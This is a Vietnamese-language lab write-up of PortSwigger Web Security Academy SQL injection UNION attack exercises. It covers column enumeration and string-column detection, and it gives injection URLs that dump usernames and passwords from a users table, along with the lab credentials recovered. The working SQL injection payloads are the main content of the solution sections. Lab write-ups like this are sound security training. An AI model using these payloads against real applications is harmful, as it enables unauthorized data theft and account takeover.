 ![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/9089c6dc-3fdb-4f8f-930f-eab8f8bbf111)+ dùng phương pháp tấn công: SQL injection UNION attacks
+ số lượng cột đầu ra bổ cung phải bằng số cột của truy vấn ban đầu
+ loại data của đầu ra bổ sung phải cùng loại với truy vấn ban đầu<br>
-> phải tìm số cột và loại data truy vấn ban đầu <br>

I. Determining the number of columns required<br>
1. Lý thuyết<br>
- dùng ORDER BY<br>
' ORDER BY 1--<br>
' ORDER BY 2--<br>
cho đến khi nào phản hồi kết quả<br>
- dùng UNION SELECT<br>
' UNION SELECT NULL--<br>
' UNION SELECT NULL,NULL--<br>
cho đến khi phản hồi kết quả<br>

2. Lab: SQL injection UNION attack, determining the number of columns returned by the query<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION
attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this
technique in subsequent labs to construct the full attack.To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that
 returns an additional row containing null values.<br>
https://portswigger.net/academy/labs/launch/c0cf223d86b3189ea471d7a4dfe43987f9306dcd549be77599964da1b517b307?referrer=%2fweb-security%2fsql-injection%2funion-attacks%2flab-determine-number-of-columns<br>

3. Giải<br>
https://0aec00dc03d3bb3380e976ed007000cc.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+NULL,NULL,NULL--<br>

II. Database-specific syntax<br>
1. Lý thuyết<br>
- trên Oracle, SELECT phải đi với FROM và nó có bảng dựng sẵn dual cho mục đích này<br>
-> truy vấn sẽ có dạng: ' UNION SELECT NULL FROM DUAL--<br>
- (--) biểu thị comment, ngoài ra (#) cx đc dùng để biểu thị comment<br>

III. Finding columns with a useful data type<br>
1. Lý thuyết<br>
- loại dữ liệu thường là dạng string nên trong UNION SELECT thay NULL bằng string để xem cột nào phù hợp để xài<br>
- VD:<br>
' UNION SELECT 'a',NULL,NULL,NULL--<br>
' UNION SELECT NULL,'a',NULL,NULL--<br>
' UNION SELECT NULL,NULL,'a',NULL--<br>
' UNION SELECT NULL,NULL,NULL,'a'--<br>

2. Lab: SQL injection UNION attack, finding a column containing text<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response,
so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query.
You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.
The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional
row containing the value provided. This technique helps you determine which columns are compatible with string data.<br>
https://portswigger.net/academy/labs/launch/dc3ff4b519f1a96f0bd7507a607ced9ca7f87900eb196d0a9b25001de1833f5e?referrer=%2fweb-security%2fsql-injection%2funion-attacks%2flab-find-column-containing-text<br>

3. Giải<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/e863a95e-5838-4810-aedf-63a855965b94)<br>

-> string đưa vào truy vấn là: rPGbN0<br>
- tìm số cột được yêu cầu: https://0ad3008404bed85481ac348c00010071.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+NULL,NULL,NULL--<br>
- dùng string để tìm cột thỏa mãn: https://0ad3008404bed85481ac348c00010071.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+NULL,%27rPGbN0%27,NULL--<br>

IV. Using a SQL injection UNION attack to retrieve interesting data<br>
1. Lab: SQL injection UNION attack, retrieving data from other tables<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response,
so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.
The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/c94c990a42d1b1f39e53806b1d0d1ad51a43e1f2d5ec1a602c144d7817d3e91c?referrer=%2fweb-security%2fsql-injection%2funion-attacks%2flab-retrieve-data-from-other-tables<br>

2. Giải<br>
- tìm kiến số cột (2 cột): https://0af100ee041f27b08159573c00140028.web-security-academy.net/filter?category=Corporate+gifts%20%27+UNION+SELECT+NULL,NULL--<br>
- tìm só cột can tạo chuỗi string (2 cột): https://0af100ee041f27b08159573c00140028.web-security-academy.net/filter?category=Corporate+gifts%20%27+UNION+SELECT+%27a%27,%27a%27--
- lấy all user và password: https://0af100ee041f27b08159573c00140028.web-security-academy.net/filter?category=Corporate+gifts%20%27+UNION+SELECT+username,+password+FROM+users--<br>
- thu được kết quả<br>
```
carlos
xzn6wsrxwocejcfxvxa5
wiener
3msla35wbnl4bfnteb83
administrator
di85ims27anua2ivz0ym
```
<br> -> dùng tài khoản administrator để login<br>

V. Retrieving multiple values within a single column<br>
1. Lab: SQL injection UNION attack, retrieving multiple values in a single column<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's
response so you can use a UNION attack to retrieve data from other tables.
The database contains a different table called users, with columns called username and password.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/7c96fa50c7c53c9f9c96467a8b9e76f070dafcf9bfdcc4f04fc786ef0b0819d2?referrer=%2fweb-security%2fsql-injection%2funion-attacks%2flab-retrieve-multiple-values-in-single-column<br>

2. Giải<br>
- tìm số cột có và số cột can xây dựng string -> chỉ có cột thứ 2 thỏa mãn
- tìm kiếm tài khoản: https://0a3300e203b0863f87a39848002e008a.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+NULL,+username+||+%27~%27+||+password+FROM+users--<br>
- kết quả thu được:<br>
```

wiener~c5nyq14fa7cpqalakr0g
carlos~wyhtnbiva5bu33xf27v9
administrator~5nqtjpdemq9jk31uyhmf
```
<br>-> login bằng tài khoản administrator
